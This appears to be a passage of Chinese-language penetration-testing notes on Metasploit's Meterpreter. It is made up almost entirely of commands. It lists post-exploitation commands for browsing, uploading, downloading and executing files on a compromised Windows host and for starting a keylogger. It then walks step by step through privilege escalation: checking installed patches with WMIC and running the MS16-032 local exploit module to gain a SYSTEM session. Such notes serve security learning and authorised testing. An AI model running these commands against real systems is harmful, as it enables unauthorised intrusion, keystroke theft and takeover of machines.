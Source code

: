 ```bash
shutdown	   # 关机

shell		# 进入目标系统的shell下面
exit        # 停止meterpreter会话（也可以停止shell并返回到meterpreter）
quit		# 关闭当前的Meterpreter会话，返回MSF终端





########## 文件系统命令
pwd	/   getwd  # 查看目标机器当前目录 
getlwd    # 查看本机当前目录 
cd	# 切换目录(注意\的转义)
ls	# 查看当前目录内容
search	-f *.txt	  -d c: # 搜索文件（search -h 查看帮助） -d指定目录， -f搜索模式
upload	/var/www/test.txt c:\  # 上传文件到目标机器的路径
download	 c:\test.txt  # 下载文件(默认保存到msf的目录)
cat	# 查看文件内容
edit # 编辑文件
execute	-f c:\\windows\\system32\\calc.exe  # 执行文件


run keylogrecorder   .... # 键盘记录？
```

###### 后渗透攻击：提权
- 纵向提权
- 横向提权

```bash
# 获取Meterpreter Shell之后，查看我们是什么权限
# Meterpreter 下输入
shell    # 进入目标的cmd
whoami /groups  # 查看当前权限
## 下面就开始进行提权了
# 用本地溢出漏洞，利用现成的exploit
```

**1.利用WMIC实战MS16-032本地溢出漏洞**
```bash
# WMIC是win一个命令行工具(交互模式/非交互模式)，不仅可管理本机还可管理域内所有远程主机(前提是有权限)，而被管理者不需要安装WMIC
# WMIC在信息搜集和后渗透十分有用，可以调查目标机的进程，服务，用户，用户组，网络连接，硬盘信息，时区，操作系统信息等


# 假设拿到了Meterpreter shell
getuid
getsystem    # 尝试提权，但是失败
# 接着查看系统打了的补丁(传统方法：在目标cmd输入systeminfo，或查询C:\windows\补丁号.log)
# 这里利用WMIC命令列出安装的补丁
WMIC qfe get Caption,Description,HotFixID,IntalledOn
# 找到打的补丁后，去找exp(然后将系统安装的补丁编号与提权exp编号比对，然后使用没有编号的exp进行提权)
## 漏洞信息网站： 安全焦点， Expolit-DB
# 接下来准备提权(把Meterpreter放到后台：background), 然后搜索ms16-032
search ms16-032    # 如果找不到，可以试试升级：msfupdate  或者手动添加相应漏洞EXP
use exploit/windows/local/ms16_032_secondary_logon_handle_privsec
set session 1
run
# 会返回一个新的session，进入，执行getuid 反省是system权限了
```
